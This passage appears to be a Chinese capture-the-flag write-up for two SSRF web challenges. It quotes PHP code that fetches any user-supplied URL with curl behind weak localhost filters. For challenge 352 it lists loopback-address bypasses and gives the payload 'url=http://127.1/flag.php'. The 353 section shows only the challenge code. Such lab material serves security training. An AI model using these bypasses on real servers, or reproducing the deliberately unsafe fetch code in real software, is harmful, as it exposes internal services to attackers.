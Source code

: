 ## 352

> ```php
> <?php
> error_reporting(0);
> highlight_file(__FILE__);
> $url=$_POST['url'];
> $x=parse_url($url);	#parse_url — 解析 URL，返回其组成部分
> if($x['scheme']==='http'||$x['scheme']==='https'){
> if(!preg_match('/localhost|127.0.0/')){
> $ch=curl_init($url);
> curl_setopt($ch, CURLOPT_HEADER, 0);
> curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
> $result=curl_exec($ch);
> curl_close($ch);
> echo ($result);
> }
> else{
>     die('hacker');
> }
> }
> else{
>     die('hacker');
> }
> ?>
> ```
>
> [PHP: parse_url - Manual](https://www.php.net/manual/zh/function.parse-url)

要求使用http和https协议，同时过滤了localhost和127.0.0
那么351的方法都不能用了，绕过方法也很多：

`127.0.1`、`127.1`、`127。0.0.1`、或者`转进制:`[IP地址进制转换 (520101.com)](https://tool.520101.com/wangluo/jinzhizhuanhuan/)

这里用：

```
url=http://127.1/flag.php
```

## 353

> ```php
> <?php
> error_reporting(0);
> highlight_file(__FILE__);
> $url=$_POST['url'];
> $x=parse_url($url);
> if($x['scheme']==='http'||$x['scheme']==='https'){
> if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
> $ch=curl_init($url);
> curl_setopt($ch, CURLOPT_HEADER, 0);
> curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
> $result=curl_exec($ch);
> curl_close($ch);
> echo ($result);
> }
> else{
>     die('hacker');
> }
> }
> else{
>     die('hacker');
> }
